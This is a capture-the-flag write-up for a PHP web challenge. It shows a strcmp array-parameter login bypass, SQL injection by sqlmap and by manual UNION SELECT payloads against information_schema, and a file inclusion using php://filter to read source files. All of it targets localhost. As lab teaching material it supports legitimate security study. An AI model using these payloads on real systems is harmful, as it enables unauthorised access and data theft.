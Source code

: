 # Part 1

The login function uses strcmp to check the username and password provided.

```php
    if(isset($_POST["username"]) && isset($_POST["password"]))
    {
        if (strcmp($_POST["username"], "admin") == 0 && strcmp($_POST["password"], "SuperSecurePasswordTheyWouldNeverGuess") == 0)
        {
            $_SESSION["isAdmin"] = true;
            header("Location: /admin.php");
            die();
        }

        $errorMessage = "Invalid username or password";
    }
```

With strcmp, the arguments must be strings, otherwise it leads to unintended behaviour. For example, comparing an array with a string gives `null`:

```
php > strcmp(array(), "hello!");
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
```

In PHP, null is weakly equal to zero:
```
php > echo (null == 0) ? "True" : "False";
True
php > echo (null === 0) ? "True" : "False";
False
```

Therefore, sending an array within the form will cause both of the strcmp's to return `null`, bypassing the check.

```username[]=test&password[]=test```

Although an error is received when doing this, the SESSION cookie is set and you can navigate to `admin.php` for the flag.

# Part 2
The searching functionality is vulnerable to SQL injection. We can use SQLmap to dump the tables for us:

`sqlmap -u "http://localhost" --data "searchBy=aaaaaa" --dump --level 5`

After a few minutes, sqlmap will return the dumped content:
```
Database: webapp
Table: the_flag
[1 entry]
+------------------------------------------+
| flag                                     |
+------------------------------------------+
| WMG{w3_D0_4_L1TtL3_81t_0F_5Ql_1N3CJT10n} |
+------------------------------------------+
```

This can also be done manually if you'd prefer:
- Confirm the name of columns being returned: `' UNION SELECT 'test' as name, null, null -- -`
  - This confirms that the 'name' column is being returned as 'name' and will display in the DOM.
- Check the names of the columns in the database: `' UNION SELECT table_name as name, null, null FROM information_schema.columns -- -`
  - This gives us the table name with the flag `the_flag`.
- Check the names of the columns in the `the_flag` table: `' UNION SELECT column_name as name, null, null FROM information_schema.columns WHERE table_name='the_flag' -- -`
  - This gives us the column name `flag` inside `the_flag` table.
- Finally, we can select the flag out of this table: `' UNION SELECT flag as name, null, null FROM the_flag -- -`
  
```
<th scope='row'>WMG{w3_D0_4_L1TtL3_81t_0F_5Ql_1N3CJT10n}</th>
```

# Part 3

The reviews page uses `include` to load the review PHP files. However, there's no validation on the pages presented. Therefore, we can specify any page, for example, index:

`http://localhost/reviews.php?review=index`

This displays the index.php file. However, the PHP is processed, meaning we cannot see the source code of the page. However, we can utilise PHP's `php://filter` protocol to convert the pages to base 64, to prevent the PHP from being rendered.

`http://localhost/reviews.php?review=php://filter/convert.base64-encode/resource=index`

This reveals the `secrets.php` import, which we can then view for the flag.

`http://localhost/reviews.php?review=php://filter/convert.base64-encode/resource=secrets`